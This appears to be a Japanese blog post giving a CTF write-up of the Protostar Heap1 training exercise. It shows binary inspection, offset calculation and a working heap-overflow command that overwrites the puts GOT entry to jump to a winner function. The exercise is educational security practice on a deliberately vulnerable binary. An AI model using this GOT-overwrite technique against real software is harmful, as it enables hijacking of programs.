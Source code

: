 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/22/exploit-exercises-protostar-heap1/
date: 2016-01-22T14:29:45+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap1

## [Protostar Heap1](https://exploit-exercises.com/protostar/heap1/)

``` sh
$ file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=d8d9ab550fbb79da574639c8d3abdf96594cc21d, not stripped

$ checksec --file heap1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   heap1
```

と`No RELRO`なのでgotへの書き込みが可能である。与えられたコードによると、

``` c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
```

と2回書き込みがあるので、1回目でoverflowにより`i2->name`に`printf`のgotのアドレスを書き込み、2回目の書き込みはそのgotに目的の関数`winner`のアドレスを書き込めばよい。
ただし、`printf("and that's a wrap folks!\n");`の呼び出しは最適化により`puts("and that's a wrap folks!");`で置き換わっている[^1]ので、`puts`のgotを使用する。

``` sh
$ ./heap1 foo bar
and that's a wrap folks!

$ gdb heap1
...
# the malloc-ed addresses are 0x804a008, 0x804a018, 0x804a028 and 0x804a038

$ echo $[0x804a028+4 - 0x804a018]
20

$ objdump -d -M intel heap1 | grep -A 1 '<puts@plt>:'
080483cc <puts@plt>:
 80483cc:   ff 25 74 97 04 08       jmp    DWORD PTR ds:0x8049774

$ readelf -s heap1 | grep '\<winner\>'
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap1 $(perl -e 'print "A"x20, "\x74\x97\x04\x08"') $(echo "\x94\x84\x04\x08")
and we have a winner @ 1453452850
```

---

# Exploit Exercises Protostar Heap1

[^1]: gccであればdefaultの`-O0`でも発生する最適化。`-fno-builtin`で抑制できる。
